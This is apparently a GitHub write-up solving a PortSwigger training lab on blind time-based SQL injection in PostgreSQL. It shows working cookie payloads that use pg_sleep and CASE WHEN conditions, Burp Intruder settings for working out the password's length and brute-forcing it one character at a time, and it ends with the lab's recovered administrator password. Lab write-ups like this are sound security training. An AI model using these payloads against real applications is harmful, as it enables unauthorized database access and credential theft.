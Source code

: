 ## Lab Description: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/99b06c8f-6a14-4dfb-9305-6eb52fa89c97)

## Solution:
Confirm that blind sql injection works -

Modify the cookie value
```sql
TrackingId=x'||pg_sleep(10)--
```
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4feb3aad-42eb-49bb-920b-c8b2287e05be)
```sql
TrackingId=x';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

We get response after 10 sec delay, which confirms the blind SQL injection vulnerability

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1a2a4a82-64cb-4307-bdb2-112bf370d9c4)

Change the boolean condition (1=2) to verify it
```sql
TrackingId=x';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
We get a response immediately which means the condition failed (1=2)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8f07eb2e-6399-4ef0-9644-4d98af981e65)

### Verify administrator user exists -
```sql
TrackingId=x';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
It takes 10 sec to respond which means there is indeed a user called administrator
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a18412d1-f760-407e-a434-e95c57f483ca)

### Find the length of admin's password -

To determine how many characters are in the password of the administrator user. To do this, change the value to:

The below payload checks if the length is > 1.

```sql
';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5f10634a-49da-4049-b04b-3e3bd7abaaca)

It takes 10 sec delay to respond which means it is > 1 character.

Automate this process,

    Send the req to intruder
    Add length of password part as payload (>1)
    Payload type - Sniper
    Payload - Numbers (1 to 50 with step 1)

Add an extra column called Response Received to show the response time of each request.

At a payload 20 , the delay of response does not happen, means the length of password is 20 characters

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ba0aa978-dc77-4e71-b073-4ab417e2f093)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/cd0f9225-d126-41db-9f7b-f158c70eb66c)

Bruteforce the admin's password -

To bruteforce the password, we use a payload where we take first letter of the password and try to match it with all alphabets and numbers. If it matches then we get a 10 sec delay.

TrackingId=x'%3BSELECT+CASE+WHEN (username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Automate this

    Add the part which replaces the first character (1,1) as payload 1.
    Add the character to be matched against ('a') as payload 2.
    Attack type - Cluster Bomb
    Payload 1 - Numbers (1 to20 with step 1)
    Payload 2 - Bruteforcer (min & max length as 1)

Once we get the result, we can segregate the result and get the password like before, since we can't arrange both response received and payload1 together.

So,

Highlight the requests which has 10 sec delay.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/77ee3888-7e55-4600-9b9d-e6f696889926)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e577c940-1e35-49b7-b89f-f325cd359070)

username: `administrator` password: `5r3t0e5zimvzomd1x0tt`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/81854452-9c57-4824-a503-2765e898a117)


